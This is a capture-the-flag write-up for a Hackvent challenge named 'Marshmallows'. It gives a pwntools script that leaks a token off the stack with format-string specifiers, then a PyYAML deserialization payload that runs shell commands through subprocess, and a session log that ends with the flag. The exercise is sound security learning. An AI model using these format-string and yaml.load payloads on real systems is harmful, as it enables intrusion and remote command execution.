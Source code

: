 Day 16: Marshmallows
--------------------
Definitely the hardest challenge until now for me but worth the effort!

We are provided with python script (and the source) that run on a remote server. We notice with the challenge hint that the printf function can be abused by using modifiers like %d, %f, %x, %s... And it returns what is on the stack. To access the second part of the challenge (the secret marshmallows) we need to find the token that must be stored somewhere on the stack (at least a reference to this string). Useful resource is [1].

Using pwntools we can create the following script that will enumerate as a string all the memory addresses in a range and restart the connection if the service crashes:
```python
#!/usr/bin/python2

from pwn import *

r = remote('challenges.hackvent.hacking-lab.com', 1033)
trash = r.recvuntil("> ")
for i in range(201, 300):
        try:
                r.sendline("1")
                r.sendline("%" + str(i) + "$s")
                result = r.recvuntil("> ")
                print(str(i) + "\n=====\n" + result)
        except EOFError:
                r = remote('challenges.hackvent.hacking-lab.com', 1033)
                trash = r.recvuntil("> ")
```

We look at the output until we find these two lines:
```
[+] Please give me some marshmallows: %294$s
MARSHMALLOW_TOKEN=eb261970-9745-4180-9f3c-d6a3cdaeee8d
```

Since the memory layout seems to be constant we don't need to rerun it and the `%294$s` string will always be the token. We can now go to step 2 and try to exploit the yaml.load() function. To do that we find some exploits on Internet and especially [2]. We can then try it localy using another python script:
```python
import yaml
import base64

load_yml = yaml.load
user_input = "..."

exploit = base64.b64encode("!!python/object/apply:subprocess.call\nargs: [ls]\nkwds: {shell: true}")
print(exploit)

secret_marshmallows = load_yml(base64.b64decode(exploit).decode('ascii'))
print(secret_marshmallows)
```

The script will output the payload base64 encoded and execute it locally as well. We can now browse through the folders. We know from the search for the token that a /home/marshmallow folder exist so we start there and we perform the following session online to get the flag:
```
nc challenges.hackvent.hacking-lab.com 1033
[+] WELCOME!

MuffinX presents...

                /^\/^\
              _|__|  O|
     \/     /~     \_/ \
      \____|__________/  \
             \_______      \
                     `\     \                 \
                       |     |                  \
                      /      /                    \
                     /     /                       \
                   /      /                         \ \
                  /     /                            \  \
                /     /             _----_            \   \
               /     /           _-~      ~-_         |   |
              (      (        _-~    _--_    ~-_     _/   |
               \      ~-____-~    _-~    ~-_    ~-_-~    /
                 ~-_           _-~          ~-_       _-~
                    ~--______-~                ~-___-~        ... Marshmallows! <3

[+] Menu

1 - Play chubby bunny.
2 - Exit.

### GET THE TOKEN ###

> 1
[+] Please give me some marshmallows: %294$s
MARSHMALLOW_TOKEN=eb261970-9745-4180-9f3c-d6a3cdaeee8d
[+] Menu

1 - Play chubby bunny.
2 - Exit.

### USE THE TOKEN AND EXECUTE 'ls /home/marshmallows' PAYLOAD ###

> send_secret_marshmallows
[?] Token: eb261970-9745-4180-9f3c-d6a3cdaeee8d
[+] Good token.
[?] Your secret marshmallows: ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3
MuY2FsbAphcmdzOiBbbHMgL2hvbWUvbWFyc2htYWxsb3dzXQprd2RzOiB7c2hlbGw6IHRydWV9
5ae64891a82f2290f157e8fa419c2d3d
marshmallows.py
marshmallows.sh
[+] Menu

1 - Play chubby bunny.
2 - Exit.

### USE THE TOKEN AND EXECUTE 'cat /home/marshmallows/5ae64891a82f2290f157e8fa419c2d3d' PAYLOAD ###
> send_secret_marshmallows
[?] Token: eb261970-9745-4180-9f3c-d6a3cdaeee8d
[+] Good token.
[?] Your secret marshmallows: ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3
MuY2FsbAphcmdzOiBbY2F0IC9ob21lL21hcnNobWFsbG93cy81YWU2NDg5MWE4MmYyMjkwZj
E1N2U4ZmE0MTljMmQzZF0Ka3dkczoge3NoZWxsOiB0cnVlfQ==

You did it!

Greets, MuffinX

HV16-m4rs-hm4l-l0wh-4x0r-sr0x

If you liked this challenge, tweet me: https://twitter.com/muffiniks
[+] Menu

1 - Play chubby bunny.
2 - Exit.

> 
```

And the flag is:

> HV16-m4rs-hm4l-l0wh-4x0r-sr0x

References:

- \[1\] Format String Exploitation-Tutorial, <https://www.exploit-db.com/docs/28476.pdf>
- \[2\] PyYaML exploit, <http://xsnippet.org/361037/>

